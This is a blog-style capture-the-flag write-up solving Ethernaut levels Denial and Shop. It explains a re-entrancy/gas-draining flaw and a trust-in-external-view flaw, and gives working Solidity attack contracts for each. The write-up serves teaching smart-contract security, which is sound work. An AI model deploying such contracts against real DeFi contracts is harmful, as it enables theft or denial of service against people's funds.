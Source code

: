 ```yaml
---
layout: post
title:  Ethernaut challenges writeup Part V (Challenges 20 and 21).
excerpt_separator: <!--more-->
category: DeFi
---
```


Hello there! Today's post covers solutions for [Ethernaut](https://ethernaut.openzeppelin.com/) challenges 20 and 21.

<!--more-->

# Challenges write up

## Denial

I solved this level exploiting the fact that the contract it is vulnerable to re-entrancy attacks. As it is possible to see, it does not implement any protection against these attacks. I analyzed function `withdraw()` and quickly saw that it used a low level `call` on `partner`. This was similar to previous level [King](https://nahueldsanchez.com.ar/Solving-Ethernaut-Challenges-08-12/) but this time the contract did not care about the result of the sending operation, so it was not possible to solve it in the same way. But as you may know, unless specified, `call` forwards all the remaining Gas to the called contract. In this case, we can exploit this in two ways:

1. Using reentrancy
2. Creating an Out Of Gas exception

I used option 1 and created a contract that in its `receive` function it a call to `withdraw`, exploiting the re-entrancy issue. I set this malicious contract as partner and started the attack issuing a `withdraw()`.

It's interesting to mention the Note provided while solving the level:

```
Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
```

Based on this I understand that if the vulnerable contract had less code to execute after the `CALL` instruction it could be not affected (and thus not solvable).

### Further Reading

- Secure Ether Transfer - https://fravoll.github.io/solidity-patterns/secure_ether_transfer.html
- Solidity - Transfer vs send vs call function - https://medium.com/coinmonks/solidity-transfer-vs-send-vs-call-function-64c92cfc878a
- Why using assert, since it would consume all gas - https://ethereum.stackexchange.com/questions/27812/why-using-assert-since-it-would-consume-all-gas
- Recommendations for Smart Contract Security in Solidity - https://ethereum-contract-security-techniques-and-tips.readthedocs.io/en/latest/recommendations/

### Solution source code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IDenial {
    function withdraw() external payable;
}

contract DenialTest {

    address victim;

    constructor(address _victim) public {
        victim = _victim;
    }

    // allow deposit of funds
    receive() external payable {
        IDenial(victim).withdraw();
    }

    function attack() public {
        IDenial(victim).withdraw();
    }

}
```

## Shop

Level similar to "Elevator", in this case we can leverage the state change in the variable `isSold` in the `Shop` contract and based on that determine which price we want to return. If we see `isSold` set to `false` we know that the seller contract is asking the price to perform the verification `_buyer.price() >= price` then, we return a price higher or at least equal to `price` (100). Once the verification is done `isSold` is set to `true`. The issue relies on the fact that the Seller contract ask for the price again, and this time, the buyer contract can return a different value. I coded this solution in my contract below.

Regardless of this, the underlying issue is that contracts should not trust in other contracts and change their state based on untrusted logic.

### Solution source code

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external returns (bool);
}

contract Buyer {
    uint public _price1 = 100;
    uint public _price2 = 1;
    address shop;

    constructor(address _shop) public {
        shop = _shop;
    }

    function price() public returns (uint) {
        if(!IShop(shop).isSold()) {
            return _price1;
        } else {
            return _price2;
        }
    }

    function buy() public {
        IShop(shop).buy();
    }
}
```

